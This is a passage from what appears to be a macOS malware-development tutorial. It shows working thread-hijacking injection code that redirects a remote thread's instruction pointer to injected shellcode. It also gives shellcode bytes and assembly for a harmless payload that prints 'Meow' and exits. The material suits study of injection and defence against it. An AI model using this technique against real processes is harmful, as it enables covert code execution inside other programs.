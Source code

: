 We suspend it, read its current `x86_thread_state64_t`, change the instruction pointer (`__rip`) to point to our shellcode:    

```cpp
thread = thread_list[0];
x86_thread_state64_t state;
mach_msg_type_number_t state_count = x86_THREAD_STATE64_COUNT;

kr = thread_get_state(thread, x86_THREAD_STATE64, (thread_state_t)&state, &state_count);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] thread_get_state failed: %s\n", mach_error_string(kr));
  return 1;
}

printf("[+] RIP before: 0x%llx\n", state.__rip);
state.__rip = remote_addr;
```

and write the new state back with `thread_set_state()`:    

```cpp
kr = thread_set_state(thread, x86_THREAD_STATE64, (thread_state_t)&state, state_count);
if (kr != KERN_SUCCESS) {
  fprintf(stderr, "[-] thread_set_state failed: %s\n", mach_error_string(kr));
  return 1;
}

printf("[+] RIP set to 0x%llx. shellcode running in PID %d\n", remote_addr, pid);
return 0;
```

So, finally we need shellcode. Our payload is simple: write the string `"Meow\n"` to stdout (file descriptor 1), then gracefully call `exit(0)`. This avoids crashing the process or leaving it in an unstable state.   

This shellcode is handcrafted in `x86_64` assembly using macOS syscall numbers. Here's the corresponding bytes:     

```cpp
unsigned char code[] =
"\x48\xb8\x4d\x65\x6f\x77\x0a\x00\x00\x00"
"\x50\xbf\x01\x00\x00\x00"
"\x48\x89\xe6\xba\x05\x00\x00\x00"
"\xb8\x04\x00\x00\x02\x0f\x05"
"\xb8\x01\x00\x00\x02\x48\x31\xff\x0f\x05";
```

if you need assembly code:    

```nasm
global start

section .text
start:
  mov rax, 0x0a776f654d     ; "\nwoeM" in little-endian
  push rax                  ; string now on stack

  mov rdi, 1                ; fd = 1 (stdout)
  mov rsi, rsp              ; pointer to "Meow\n"
  mov rdx, 5                ; length = 5 bytes
  mov rax, 0x2000004        ; syscall: write
  syscall

  mov rax, 0x2000001        ; syscall: exit
  xor rdi, rdi              ; exit code 0
  syscall
```
